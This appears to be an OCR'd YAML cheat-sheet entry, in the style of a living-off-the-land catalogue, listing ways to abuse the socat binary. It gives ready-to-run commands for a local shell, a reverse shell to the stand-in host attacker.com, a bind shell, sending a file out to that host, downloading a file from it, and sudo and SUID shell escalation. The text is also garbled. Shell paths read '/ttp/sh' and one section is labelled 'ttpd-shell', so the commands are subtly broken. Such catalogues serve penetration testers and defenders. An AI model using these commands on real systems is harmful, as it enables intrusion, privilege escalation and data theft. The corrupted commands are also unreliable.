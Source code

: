 ```yaml
---
functions:
  shell:
    - description: The resulting shell is not a proper TTY shell and lacks the prompt.
      code: |
        socat stdin exec:/ttp/sh
  reverse-shell:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        socat tcp-connect:$RHOST:$RPORT exec:/ttp/sh,pty,stderr,setsid,sigint,sane
  ttpd-shell:
    - description: Run ``socat FILE:`tty`,raw,echo=0 TCP:target.com:12345`` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:/ttp/sh,pty,stderr,setsid,sigint,sane
  file-upload:
    - description: Run ``socat -u tcp-listen:12345,reuseaddr open:file_to_save,creat`` on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        socat -u file:$LFILE tcp-connect:$RHOST:$RPORT
  file-download:
    - description: Run ``socat -u file:file_to_send tcp-listen:12345,reuseaddr`` on the attacker box to send the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_save
        socat -u tcp-connect:$RHOST:$RPORT open:$LFILE,creat
  sudo:
    - description: The resulting shell is not a proper TTY shell and lacks the prompt.
      code: |
        sudo socat stdin exec:/ttp/sh
  limited-suid:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./socat tcp-connect:$RHOST:$RPORT exec:/ttp/sh,pty,stderr,setsid,sigint,sane
---
```

